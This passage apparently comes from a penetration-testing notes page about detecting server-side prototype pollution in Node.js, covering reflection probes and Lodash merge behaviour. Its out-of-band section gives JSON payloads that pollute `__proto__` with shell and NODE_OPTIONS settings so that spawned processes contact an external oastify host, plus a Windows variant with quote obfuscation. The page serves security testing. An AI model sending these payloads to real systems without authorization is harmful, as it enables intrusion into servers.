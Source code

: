 Two keys are used in the preceding example `__proto__` and `__proto__x`. If the latter is reflected but not the former, then it's likely there is some form of object reflection that could be prototype pollution. If the key/value persists when the property is removed, this indicates there is some form of object persistence that could potentially be prototype pollution.

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the preceding example, only `b` is reflected and not the inherited property `a`. This is because Lodash looks at the current object to see if the property already exists in the merged object

### OAST <a href="#oast" id="oast"></a>

I read an excellent paper about [exploiting prototype pollution](https://arxiv.org/pdf/2207.11171.pdf) by Mikhail Shcherbakov, Musard Balliu & Cristian-Alexandru Staicu. In the paper they detail how to exploit Node sinks such as `fork()`, `exec()`, `execSync()` and others.

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id.oastify.com"
  }
}
```

windows

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
  }
}
```
